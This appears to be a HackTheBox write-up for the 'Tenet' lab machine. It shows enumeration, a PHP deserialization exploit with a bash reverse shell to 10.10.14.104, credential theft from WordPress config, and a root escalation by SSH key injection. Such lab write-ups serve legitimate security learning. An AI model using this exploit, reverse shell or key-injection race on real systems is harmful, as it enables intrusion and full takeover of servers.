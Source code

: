 ```yaml
---
title: Tenet Writeup
author: Eno
date: 2021-06-14 14:30pm
categories: [hackthebox]
tags: [hackthebox, writeup, tenet]
math: true
image: /assets/img/htb/Tenet/tenet1.png
---
```


# Reconnaissance

Let us start with a basic enumeration with nmap.

```bash
sudo nmap -sC -sV
```
![Tenet](/assets/img/htb/Tenet/tenet2.png)

We go to http://10.10.10.223 and we get a default Apache page.

![Tenet](/assets/img/htb/Tenet/tenet3.png)

We then run feroxbuster web enumeration

```
feroxbuster --url http://10.10.10.223 
```

We find the following

![Tenet](/assets/img/htb/Tenet/tenet4.png)

We go to http://10.10.10.223/wordpress and find it is running wordpress.
<br>
We browse around and If we hover over <b>'Tenet'</b> at the bottom we see a hostname <b>'tenet.htb'</b>

![Tenet](/assets/img/htb/Tenet/tenet5.png)

We add <b>tenet.htb</b> to our hosts file and then browse to http://tenet.htb
<br>
Now everything on the site loads properly.

![Tenet](/assets/img/htb/Tenet/tenet6.png)

After browsing around we find the following comment left by a user.

![Tenet](/assets/img/htb/Tenet/tenet7.png)

Seems like someone might have left a file called <b>sator.php</b> and maybe a backup of it?

Let's go check.
I just add <b>sator.php</b> and <b>sator.php.bak</b> into a file called words.txt and ran feroxbuster with it.

```
feroxbuster --url http://10.10.10.223 -w words.txt
```

![Tenet](/assets/img/htb/Tenet/tenet8.png)

<b>Code 200</b> confirms we have an OK success status code.

Browsing to http://10.10.10.223/sator.php we get

![Tenet](/assets/img/htb/Tenet/tenet9.png)

We then also download the <b>http://10.10.10.223/sator.php.bak</b>  and find the following code.

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

# Foothold

I struggle with these types of challenges but 
essentially looking at the code it seems we can create our own php file and insert data to get RCE.
<br>
We just have to create our own php file with code to do this request.
<br>
We can see it could be some sort of <b>PHP Deserialization RCE</b>
<br>
Looking at the following articles we can get an idea of what needs to be done.
<br>
- [https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php](https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php)
<br>
- [https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

We create our own PHP file with the following to add our reverse shell code into a file called moo.php and then call it to create a reverse shell.

```php
<?php

class DatabaseExport
{
	public $user_file = 'moo.php';
	public $data = '<?php exec("bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.104/9998 0>&1\'"); ?>';

	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo 'EXPLOITED';
	}
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$url");
$response = file_get_contents("http://10.10.10.223/moo.php");
?>
```


We start a netcat listener on port 9998
<br>
We run the php file.

![Tenet](/assets/img/htb/Tenet/tenet10.png)

We get a reverse shell on our netcat.

![Tenet](/assets/img/htb/Tenet/tenet11.png)

# User

Seeing that this is a wordpress site the first place I usually go and check for credentials is the <b>wp-config.conf</b>>. 
<br>
Jackpot.
<br>
![Tenet](/assets/img/htb/Tenet/tenet12.png)
<br>
I use those details to ssh into the machine and we have user on the box.
<br>

![Tenet](/assets/img/htb/Tenet/tenet13.png)
<br>
We check and there is the user flag.
<br>
![Tenet](/assets/img/htb/Tenet/tenet14.png)

# Privilege Escalation

Now for privsec
<br>
Let us check the sudoers file.
<br>
Seems we have access to a run a script as sudo.
<br>

![Tenet](/assets/img/htb/Tenet/tenet15.png)

We look at the script and find this part that is interesting.
<br>
We can inject our own ssh key!
<br>

![Tenet](/assets/img/htb/Tenet/tenet16.png)

We create our own key with <b>ssh-keygen</b>

![Tenet](/assets/img/htb/Tenet/tenet17.png)

We create a <b>while true</b> script called <b>sshkey.sh</b> to put our key in and inject it into a /tmp/ssh-* file which then injects it into the authorized_keys file for the root user.
<br>
Create a file sshkey.sh and put your public key in there. 
<br>
I had named mine moonkey.pub.
<br>
![Tenet](/assets/img/htb/Tenet/tenet18.png)
<br>
Open up another terminal and ssh to the machine as neil.
<br>
Now run the script on the remote machine

```bash
chmod +x sshkey.sh
./sshkey.sh
```

Then in the other terminal run
<br>
![Tenet](/assets/img/htb/Tenet/tenet19.png)
<br>
SSH Key has been added to root's authorized_keys file!
<br>
Now we try ssh with our key we generated to root.

```bash
ssh -i moonkey root@10.10.10.223
```

![Tenet](/assets/img/htb/Tenet/tenet20.png)
<br>
We have root!
Let's grab the root flag.
<br>
![Tenet](/assets/img/htb/Tenet/tenet21.png)
